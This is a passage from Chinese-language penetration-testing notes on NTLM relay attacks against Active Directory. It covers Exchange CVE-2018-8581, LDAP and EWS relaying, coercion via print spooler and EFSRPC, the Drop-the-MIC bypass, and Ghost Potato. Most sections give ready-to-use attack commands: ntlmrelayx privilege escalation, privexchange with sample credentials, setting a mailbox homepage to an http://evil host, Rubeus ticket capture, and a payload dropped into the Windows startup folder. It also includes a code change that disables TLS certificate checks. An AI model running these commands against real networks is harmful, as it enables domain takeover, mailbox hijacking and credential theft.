需要注意的是，smb relay to ldap 默认情况下会开启签名，因此只能 http relay to ldap。
```
python3 ntlmrelayx.py -t ldap://192.168.60.112 -smb2support
```

**smb/http relay to http**

中继至 http 时，如果：

1. 中继的账户是普通域用户，可以中继到 Exchange /EWS 接口，实现邮件发送、邮件下载、邮件委托、设置主页等功能
2. 中继的账户是域管账户，可以尝试 ADCS 提权

```bash
python2 ntlmRelayToEWS.py -t https://ip/EWS/exchange.asmx -r getFolder -f inbox -v
python2 ntlmRelayToEWS.py -t https://ip/EWS/exchange.asmx -r setHomePage -u http://evil/home.html -v

# 如果报证书认证错误，需要修改 lib/httprelayclient.py 源码
class HTTPRelayClient:
    def __init__(self, target, body):
        ......
        ......
        if proto.lower() == 'https':
            #Create unverified (insecure) context
            try:
                #uv_context = ssl.SSLContext(ssl.PROTOCOL_SSLv23)
                # uv_context = ssl.create_default_context()
                uv_context = ssl._create_unverified_context() # 把 create_default_context 改成 _create_unverified_context
实战中邮件委托和设置主页两个功能危害较大。
```

#### PushSubscription abuse (CVE-2018-8581)

- https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2018-8581

**简介**

Exchange 的 SSRF 默认携带凭据, 可以用于 Relay

1. 通过 HTTP 使用 NTLM 向攻击者进行交换身份验证
2. 与 NTLM 中继攻击相结合，使得用户可以低权限 (任意拥有邮箱的用户) 提权到域管理员。

**相关文章**
- [微软Exchange爆出0day漏洞，来看POC和技术细节](https://www.freebuf.com/vuls/195162.html)
- [Microsoft Exchange 任意用户伪造漏洞（CVE-2018-8581）分析](https://paper.seebug.org/804/)
- [MICROSOFT EXCHANGE漏洞分析 - CVE-2018-8581](https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/)
- [分析CVE-2018-8581：在Microsoft Exchange上冒充用户](https://www.anquanke.com/post/id/168337)
- [船新版本的Exchange Server提权漏洞分析](https://www.anquanke.com/post/id/170199)
- [利用 Exchange SSRF 漏洞和 NTLM 中继沦陷域控](https://paper.seebug.org/833/)
- [Exchange CVE-2018-8581 补丁有用？没用？](https://mp.weixin.qq.com/s/5nPUhIpUB5sR2bmP_getyw)
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/pushsubscription-abuse

**POC | Payload | exp**
- [Ridter/Exchange2domain](https://github.com/Ridter/Exchange2domain)
- [WyAtu/CVE-2018-8581](https://github.com/WyAtu/CVE-2018-8581)
- [dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange)

**http relay to EWS 接口**

由于 Exchange 是以 System 用户的权限运行, 因此我们拿到的是机器用户的 Net-Ntlm Hash。并不能直接用以登录。但是 Exchange 机器用户可以获得 TokenSerializationRight 的 ”特权” 会话，可以 Relay 到 机子本身的 Ews 接口，然后可以使用 SOAP 请求头来冒充任何用户。
- https://github.com/WyAtu/CVE-2018-8581

本地 NT AUTHORITY\SYSTEM 账户对 Exchange 服务器拥有 ms-Exch-EPI-Token-Serialization 权限，可以在连接 /EWS 接口时修改 SOAP Header 为其他邮箱用户的 SID 来模拟成任何邮箱用户。因此可以中继至 /EWS 接口，实现任意用户的邮件发送、邮件下载、邮件委托、设置主页等功能。
```bash
# 查看本地 NT AUTHORITY\SYSTEM 账户对 Exchange 服务器拥有 ms-Exch-EPI-Token-Serialization 权限
PS C:\> Get-ADPermission -Identity WIN2012-Ex2016 | where {($_.ExtendedRights -like "ms-Exch-EPI-Token-Serialization") -and $_.Deny -like "False"} |fl

# 手动修改 CVE-2018-8581_debug.py 参数后执行
python2 CVE-2018-8581_debug.py

# 然后 zhangsan 可以打卡 lisi 的收件箱文件夹查看其邮件。
```

**http relay to LDAP**

所有的 Exchange Server 都在 Exchange Windows Permissions 组里面, 而这个组默认就对域有 WriteACL 权限.

因此我们可以 relay 到 LDAP, 而又由于 Relay 到的服务端是 Ldap,Ldap 服务器的默认策略是协商签名。而不是强制签名。是否签名由客户端决定。在 SSRF 里面发起的请求是 http 协议，http 协议是不要求进行签名.

Exchange 机器账户对域分区拥有 WriteDacl 权限，直接通过 ACL 进行提权。
```bash
# 设定订阅
python3 privexchange.py win2012-ex2016.island.com -d island.com -ah 192.168.123.123 -u zhangsan -p ZS@123qwe --debug

# 内网机器上做中继，自动通过 ACL 进行提权
python3 ntlmrelayx.py -t ldap://WIN2012-DC1.island.com --escalate-user zhangsan --no-dump
```

---

### LDAP中继

**相关文章**
- [How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)

#### LDAP签名

在默认情况底下，ldap 服务器就在域控里面，而且默认策略就是协商签名。而不是强制签名。是否签名是有客户端决定的。服务端跟客户端协商是否签名。

客户端分情况，如果是 smb 协议的话，默认要求签名的，如果是 webadv 或者 http 协议，是不要求签名的

微软公司于 2019-09-11 日发布相关通告称微软计划于 2020 年 1 月发布安全更新。为了提升域控制器的安全性，该安全更新将强制开启所有域控制器上 LDAP channel binding 与 LDAP signing 功能。

#### Impcaket ntlmrelayx

**高权限用户**

如果 NTLM 发起用户在以下用户组
- Enterprise admins
- Domain admins
- Built-in Administrators
- Backup operators
- Account operators

那么就可以将任意用户拉进该组，从而使该用户称为高权限用户，比如域管

**write-acl 权限**

如果发起者对域有 write-acl 权限，那么就可以在域内添加两台 acl
```
'DS-Replication-Get-Changes'     = 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
'DS-Replication-Get-Changes-All' = 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
```
acl 的受托人可以是任意用户，从而使得该用户可以具备 dcsync 的权限

**普通用户权限**

在 server2012r2 之后，如果没有以上两个权限。可以通过设置基于资源的约束委派。

在 NTLM 发起者属性 msDS-AllowedToActOnBehalfOfOtherIdentity 里面添加一条 ace, 可以让任何机器用户和服务用户可以控制该用户 (NTLM 发起者)。

---

### ADCS

在企业环境中部署 Active Directory 证书服务 (AD CS) 可以让系统管理员利用它在不同目录对象之间建立信任。

**相关文章**
- [PetitPotam – NTLM Relay to AD CS](https://pentestlab.blog/2021/09/14/petitpotam-ntlm-relay-to-ad-cs/)

**相关工具**
- [topotam/PetitPotam](https://github.com/topotam/PetitPotam)
- [bats3c/ADCSPwn](https://github.com/bats3c/ADCSPwn)

---

### ADFS

**相关文章**
- [Relaying to ADFS Attacks](https://www.praetorian.com/blog/relaying-to-adfs-attacks/)

**相关工具**
- [praetorian-inc/ADFSRelay](https://github.com/praetorian-inc/ADFSRelay) - Proof of Concept Utilities Developed to Research NTLM Relaying Attacks Targeting ADFS (仅在目标禁用 EPA 的情况下可用)

---

### MS-DFSNM abuse

> DFS

**相关文章**
- [How to Detect DFSCoerce](https://www.praetorian.com/blog/how-to-detect-dfscoerce/)
- [Elevating Privileges with Authentication Coercion Using DFSCoerce](https://www.praetorian.com/blog/how-to-leverage-dfscoerce/)

**相关工具**
- [Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)

---

### MS-FSRVP abuse

> File Server Remote VSS Protocol

**相关文章**
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-fsrvp

**相关工具**
- [ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce) - MS-FSRVP coercion abuse PoC

---

### MS-EFSR abuse

> Microsoft's Encrypting File System Remote protocol

**相关文章**
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr
- [Dropping Files on a Domain Controller Using CVE-2021-43893](https://www.rapid7.com/blog/post/2022/02/14/dropping-files-on-a-domain-controller-using-cve-2021-43893/)
    - [译文 | 某场景使用 EFSRPC 在域控制器上任意写文件到域沦陷](https://mp.weixin.qq.com/s/PHyUYvPBH4Ll-ahUgMDk0w)

**相关工具**
- [topotam/PetitPotam](https://github.com/topotam/PetitPotam)

---

### MS-RPRN abuse

> Microsoft’s Print Spooler

利用 Windows 打印系统远程协议（MS-RPRN）中的一种旧的但是默认启用的方法，在该方法中，域用户可以使用 MS-RPRN RpcRemoteFindFirstPrinterChangeNotification(Ex) 方法强制任何运行了 Spooler 服务的计算机以通过 Kerberos 或 NTLM 对攻击者选择的目标进行身份验证。

**相关文章**
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn

**相关工具**
- https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py
- [vletoux/SpoolerScanner](https://github.com/vletoux/SpoolerScanner) - Check if MS-RPRN is remotely available with powershell/c#
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py
- [leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)

**非约束委派+MS-RPRN abuse**

需要以域用户运行 SpoolSample
```
SpoolSample.exe DC DM
```

使 DC 强制访问 DM 认证，同时使用 rubeus 监听来自 DC 的 4624 登录日志
```
Rubeus.exe monitor /interval:1 /filteruser:dc$
```

使用 Rubues 导入 base64 的 ticket
```
.\Rubeus.exe ptt /ticket:base64
```

此时导出的 ticket 就有 DC 的 TGT

---

### 绕过

#### CVE-2015-0005

在签名的情况底下。对于攻击者，由于没有用户 hash，也就没办法生成 keyexchangekey，虽然在流量里面能够拿到 encryptedrandomsessionkey，但是没有 keyexchangekey，也就没办法算出 exportedsession_key，也就没法对流量进行加解密。从而进行 Relay。

攻击者一旦拿到 keyexchangekey 的话，就可以进行 Relay。而 CVE-2015-0005 正好是泄漏了这个 key，因此这里单独拿出来说说。

在域内进行 NTLMRELAY 的时候，如果登录的用户是域用户，这个时候认证服务器本地是没有域用户的 hash 的，这个时候会通过 NETLOGON 把 type 1,type 2,type 3 全部发给域控，让域控去判断。并不是向域控索要域用户的 hash。那在认证之后，由于没有用户的 hash，也没有办法算出 keyexchangekey，这个时候认证服务器就会通过 NETLOGON 去找域控索要 keyexchangekey。从而算出 exportedsession_key。

但是这个漏洞就出在，不是只有认证服务器才能找域控索要 keyexchangekey，只要是机器用户来索要 keyexchangekey，域控都会给，并没有做鉴权。我们拥有一个机器用户的话,任何加入域的计算机都可以针对域控制器验证任何传递身份验证，可以去找域控索要 keyexchangekey，然后配合流量里面的 encryptedrandomsessionkey 算出 exportedsessionkey，使用 exportedsession_key 进行加解密。

该漏洞利用，在 impacket 的 `smbrelayx.py` 已经集成,不需要指定额外的参数,提供一个机器用户以及他的凭据，当发现服务端要求进行签名的时候就会自动调用



---

#### CVE-2019-1040

`Drop the MIC`

此漏洞表明，即使仅删除了 MIC（即使该标志指示其存在），服务器也接受了身份验证。
```bash
# 将 SMB 中继到 LDAP 服务
impacket-ntlmrelayx -t ldaps://192.168.141.132 --remove-mic -smb2support
```

---

### NTLM 反射

#### MS08-068

> MS08-068 修复的是，无法再将 Net-NTLM 哈希值传回到发起请求的机器上，除非进行跨协议转发

在这之前，当拿到用户的 smb 请求之后，最直接的就是把请求 Relay 回用户本身，即 Reflect。从而控制机子本身。漏洞危害特别高。微软在 kb957097 补丁里面通过修改 SMB 身份验证答复的验证方式来防止凭据重播，从而解决了该漏洞。

主机 A 向主机 B(访问 `\\B`) 进行 SMB 认证的时候，将 pszTargetName 设置为 cifs/B, 然后在 type 2 拿到主机 B 发送 Challenge 之后，在 lsass 里面缓存 (Challenge,cifs/B)。

然后主机 B 在拿到主机 A 的 type 3 之后，会去查看 lsass 里面有没有缓存 (Challenge,cifs/b)，如果存在缓存，那么认证失败。

这种情况底下，如果主机 B 和主机 A 是不同的主机的话，那 lsass 里面就不会缓存 (Challenge,cifs/B)。如果是同一台主机的话，那 lsass 里面肯定有缓存，这个时候就会认证失败。

这个补丁在 CVE-2019-1384(Ghost Potato) 被绕过。

---

#### MS16-075

`Hot Potato`

> MS16-075 之后微软修复了 http->smb 的本机 relay

一个典型的 NTLM_RELAY 利用链。

1. 发起 ntlm 请求
    1. 配合 NBNS 投毒欺骗和伪造 WPAD 代理服务器, 发起 ntlm 请求请求, 拿到用户的 Net-NTML hash
    2. 所有的 HTTP 请求将会被重定向至 “http://localhost/GETHASHESxxxxx”
    3. 其中的 xxxxx 表示的是某些唯一标识符。将会影响目标主机中所有的用户，包括管理员账户和系统账户。

2. 拿到 ntlm 请求
    1. MS08-068 虽然限制了同台主机之间 smb 到 smb 的 Relay，但是并没有限制从 http 到 smb
    2. 配合 NBNS 投毒欺骗和伪造 WPAD 代理服务器拿到的 ntlm 请求说 http 的形式，我们可以直接 relay 到本机的 smb。

3. 服务端是否要求签名
    3. 我们 Relay 到的服务端协议是 smb，除非是域内的域控，不然在工作组环节底下，或者域内的域成员机器，都是不要求签名的。

为了绕过这个限制需要将 type2(NTLMSSP_CHALLENGE)Negotiate Flags 中的 0x00004000 设置为 0，但是设置为 0 后会出现另外一个问题那就是 MIC 验证会不通过，为了绕过这个限制又需要把 type2 Negotiate Flags 中的 `Negotiate Always Sign` 设置为 0

---

#### CVE-2019-1384

`Ghost potato`

**相关文章**
- [Ghost Potato](https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html)
- [Ghost potato实际利用](https://www.lz1y.cn/2019/11/19/Ghost-potato%E5%AE%9E%E9%99%85%E5%88%A9%E7%94%A8/index.html)
- [Ghost Potato 复现(Cve-2019-1384)](https://xz.aliyun.com/t/7087)

这个漏洞绕过了 MS08-068 之后，用户不能 relay 回本机的限制。

先来回顾下 MS08-068 是怎么防止 Relay 的。
1. 主机 A 向主机 B(访问 \\B)进行 SMB 认证的时候，将 pszTargetName 设置为 cifs/B, 然后在 type 2 拿到主机 B 发送 Challenge 之后，在 lsass 里面缓存(Challenge,cifs/B)。
2. 然后主机 B 在拿到主机 A 的 type 3 之后，会去 lsass 里面有没有缓存(Challenge,cifs/b)，如果存在缓存，那么认证失败。
3. 这种情况底下，如果主机 B 和主机 A 是不同的主机的话，那 lsass 里面就不会缓存(Challenge,cifs/B)。如果是同一台主机的话，那 lsass 里面肯定有缓存，这个时候就会认证失败。



然而这个缓存 (Challenge,cifs/B) 是有时效性的，这个时间是 300 秒，也就是说 300 秒后，缓存 (Challenge,cifs/B) 就会被清空，这个时候即使主机 A 和主机 B 是同一台主机，那么由于缓存已经被清除，那么去 lsass 里面肯定找不到缓存(Challenge,cifs/B)。



- https://shenaniganslabs.io/files/impacket-ghostpotato.zip
    ```
    cd impacket-ghostpotato
    pip uninstall impacket
    pip install .
    cd examples
    python ntlmrelayx.py -t smb://192.168.141.131 -smb2support --gpotato-startup exploit.txt
    ```

    ```
    responder -I eth0 --lm
    ```

    使用 IE 浏览器进行访问

    

    等待五分十五秒

    

    POC 会自动上传文件到 WIndows 启动目录，用户下次登录时自启动

    

- [Lz1y/impacket-ghostpotato](https://github.com/Lz1y/impacket-ghostpotato)
    ```
    cd impacket-ghostpotato
    pip uninstall impacket
    pip install .
    cd examples
    python ntlmrelayx.py --no-smb-server -smb2support
    ```

这里需要注意的是这里当然也受到 kb2871997 的限制，所以在 Windows 2012 以及之后的版本中也需要 rid500 的账户才能成功，后续也一样
